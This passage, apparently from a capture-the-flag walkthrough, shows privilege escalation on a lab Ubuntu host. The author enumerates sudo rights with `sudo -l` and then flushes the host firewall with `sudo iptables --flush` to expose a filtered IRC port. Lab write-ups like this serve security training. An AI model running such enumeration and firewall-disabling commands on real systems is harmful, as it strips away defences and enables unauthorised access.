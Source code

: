 #### Privilege escalation to waldo

One thing you should always do is running `sudo -l` when possible, this proved to be very useful.

```console
www-data@ubuntu:/tmp$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (waldo) NOPASSWD: /usr/bin/vim /etc/apache2/sites-available/000-default.conf
    (ALL) NOPASSWD: /sbin/iptables
```

Two different rules, does that mean two different ways to get higher privileges? Possibly.

You might've noticed that port 6667 was marked as filtered in your nmap scan, guess you were right! Check the current `iptables` rules.


```console
www-data@ubuntu:/tmp$ sudo /sbin/iptables -L
sudo /sbin/iptables -L
Chain INPUT (policy ACCEPT)
target     prot opt source               destination
ACCEPT     tcp  --  localhost            anywhere             tcp dpt:ircd
DROP       tcp  --  anywhere             anywhere             tcp dpt:ircd

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination
```

Let's flush them so IRC is unblocked.
```console
www-data@ubuntu:/tmp$ sudo /sbin/iptables --flush
sudo /sbin/iptables --flush
www-data@ubuntu:/tmp$ sudo /sbin/iptables -L
sudo /sbin/iptables -L
Chain INPUT (policy ACCEPT)
target     prot opt source               destination

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination
```

If you run nmap again you'll notice that port 6667 is no longer blocked, I
used `hexchat` to connect to IRC.
